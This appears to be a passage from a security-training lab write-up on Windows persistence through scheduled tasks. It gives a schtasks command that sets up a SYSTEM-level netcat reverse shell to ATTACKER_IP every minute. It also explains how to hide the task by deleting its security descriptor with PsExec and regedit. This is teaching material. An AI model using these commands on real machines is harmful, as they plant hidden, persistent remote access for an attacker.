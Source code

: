 # Abusing scheduled tasks

The most common way to schedule tasks is using the built-in 
[Windows task scheduler](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks). 
The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that 
will activate at specific hours, repeat periodically or even trigger when specific system events occur.

Create a task that runs a reverse shell every minute. In a real-world scenario, you will not want your payload to 
run that often, but we don't want to wait too long for this exercise:

    schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
    SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.

The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates 
that the task will run with `SYSTEM` privileges. Check with:

    schtasks /query /tn thm-taskbackdoor

To hide the scheduled task, make it invisible to any user in the system by deleting its Security Descriptor (SD). 
The security descriptor is an ACL that states which users have access to the scheduled task. If a user is not 
allowed to query a scheduled task, it will not be visible, as Windows only shows the tasks that a user has permission 
to use. Deleting the `SD` is equivalent to disallowing all users' access to the scheduled task, including 
Administrators.

The security descriptors of all scheduled tasks are stored in 
`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. There is a registry key for every task, 
under which a value named `SD` contains the security descriptor. You can only erase the value if you have SYSTEM 
privileges.

Use `psexec` (available in `C:\tools`) to open `Regedit` with `SYSTEM` privileges:

    c:\tools\pstools\PsExec64.exe -s -i regedit

And delete the security descriptor for the task.